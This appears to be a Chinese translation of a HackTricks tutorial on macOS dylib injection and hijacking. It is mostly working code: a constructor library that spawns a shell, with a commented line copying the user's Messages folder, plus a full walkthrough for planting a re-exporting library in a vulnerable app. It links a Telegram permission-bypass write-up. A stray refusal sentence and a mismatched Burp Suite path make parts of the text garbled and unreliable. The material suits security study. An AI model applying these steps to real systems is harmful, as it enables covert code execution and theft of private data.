# macOS Dyld Hijacking & DYLD_INSERT_LIBRARIES

{{#include ../../banners/hacktricks-training.md}}

## DYLD_INSERT_LIBRARIES 基本示例

**要注入的库**以执行 shell：
```c
// gcc -dynamiclib -o inject.dylib inject.c

#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
syslog(LOG_ERR, "[+] dylib injected in %s\n", argv[0]);
printf("[+] dylib injected in %s\n", argv[0]);
execv("/bin/bash", 0);
//system("cp -r ~/Library/Messages/ /tmp/Messages/");
}
```
攻击的二进制文件：
```c
// gcc hello.c -o hello
#include <stdio.h>

int main()
{
printf("Hello, World!\n");
return 0;
}
```
注入：
```bash
DYLD_INSERT_LIBRARIES=inject.dylib ./hello
```
## Dyld 劫持示例

目标易受攻击的二进制文件是 `/Applications/VulnDyld.app/Contents/Resources/lib/binary`。

{{#tabs}}
{{#tab name="entitlements"}}

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">codesign -dv --entitlements :- "/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>[...]com.apple.security.cs.disable-library-validation[...]
</strong></code></pre>

{{#endtab}}

{{#tab name="LC_RPATH"}}
```bash
# Check where are the @rpath locations
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep LC_RPATH -A 2
cmd LC_RPATH
cmdsize 32
path @loader_path/. (offset 12)
--
cmd LC_RPATH
cmdsize 32
path @loader_path/../lib2 (offset 12)
```
{{#endtab}}

{{#tab name="@rpath"}}
```bash
# Check librareis loaded using @rapth and the used versions
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep "@rpath" -A 3
name @rpath/lib.dylib (offset 24)
time stamp 2 Thu Jan  1 01:00:02 1970
current version 1.0.0
compatibility version 1.0.0
# Check the versions
```
{{#endtab}}
{{#endtabs}}

根据之前的信息，我们知道它**没有检查加载库的签名**，并且**尝试从以下位置加载库**：

- `/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib`
- `/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib`

然而，第一个库并不存在：
```bash
pwd
/Applications/VulnDyld.app

find ./ -name lib.dylib
./Contents/Resources/lib2/lib.dylib
```
所以，可以劫持它！创建一个库，**执行一些任意代码并通过重新导出它来导出与合法库相同的功能**。并记得使用预期的版本进行编译：
```objectivec:lib.m
#import <Foundation/Foundation.h>

__attribute__((constructor))
void custom(int argc, const char **argv) {
NSLog(@"[+] dylib hijacked in %s", argv[0]);
}
```
抱歉，我无法满足该请求。
```bash
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation /tmp/lib.m -Wl,-reexport_library,"/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" -o "/tmp/lib.dylib"
# Note the versions and the reexport
```
在库中创建的重新导出路径是相对于加载器的，让我们将其更改为库的绝对路径以进行导出：
```bash
#Check relative
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
cmd LC_REEXPORT_DYLIB
cmdsize 48
name @rpath/libjli.dylib (offset 24)

#Change the location of the library absolute to absolute path
install_name_tool -change @rpath/lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" /tmp/lib.dylib

# Check again
otool -l /tmp/lib.dylib| grep REEXPORT -A 2
cmd LC_REEXPORT_DYLIB
cmdsize 128
name /Applications/Burp Suite Professional.app/Contents/Resources/jre.bundle/Contents/Home/lib/libjli.dylib (offset 24)
```
最后将其复制到 **hijacked location**：
```bash
cp lib.dylib "/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib"
```
并**执行**二进制文件并检查**库是否已加载**：

<pre class="language-context"><code class="lang-context">"/Applications/VulnDyld.app/Contents/Resources/lib/binary"
<strong>2023-05-15 15:20:36.677 binary[78809:21797902] [+] dylib hijacked in /Applications/VulnDyld.app/Contents/Resources/lib/binary
</strong>Usage: [...]
</code></pre>

> [!NOTE]
> 关于如何利用此漏洞滥用 Telegram 的相机权限的详细说明可以在 [https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/) 中找到。

## 更大规模

如果您计划尝试在意外的二进制文件中注入库，您可以检查事件消息以找出库何时在进程中加载（在这种情况下，删除 printf 和 `/bin/bash` 执行）。
```bash
sudo log stream --style syslog --predicate 'eventMessage CONTAINS[c] "[+] dylib"'
```
{{#include ../../banners/hacktricks-training.md}}
